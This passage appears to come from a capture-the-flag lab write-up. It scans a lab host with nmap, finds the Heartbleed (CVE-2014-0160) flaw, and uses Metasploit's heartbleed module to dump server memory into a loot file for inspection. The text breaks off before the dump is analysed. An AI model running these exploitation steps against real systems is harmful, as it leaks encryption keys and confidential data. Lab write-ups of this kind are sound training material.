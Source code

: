 Needed passcode.

Let’s scan use nmap —script vuln to scan for vulnerabilities:

```bash
sudo nmap --script vuln 10.10.10.79

| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://cvedetails.com/cve/2014-0160/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://www.openssl.org/news/secadv_20140407.txt 
```

Seems to be vulnerable to heartbleed. Let’s search up exploit:

```bash
msfconsole
search heartbleed
   4  auxiliary/scanner/ssl/openssl_heartbleed                2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
   5    \_ action: DUMP                                       .                .       .      Dump memory contents to loot
use 5

set RHOSTS 10.10.10.79
run

[+] 10.10.10.79:443       - Heartbeat response with leak, 65535 bytes
[+] 10.10.10.79:443       - Heartbeat data stored in /home/kali/.msf4/loot/20250904112649_default_10.10.10.79_openssl.heartble_029517.bin
[*] 10.10.10.79:443       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Let’s attempt to view the data:

```bash
cp /home/kali/.msf4/loot/20250904112649_default_10.10.10.79_openssl.heartble_029517.bin hb_dump.bin
file hb_dump.bin

hb_dump.bin: data
```

Let’s use strings to try and extract meaningful text:

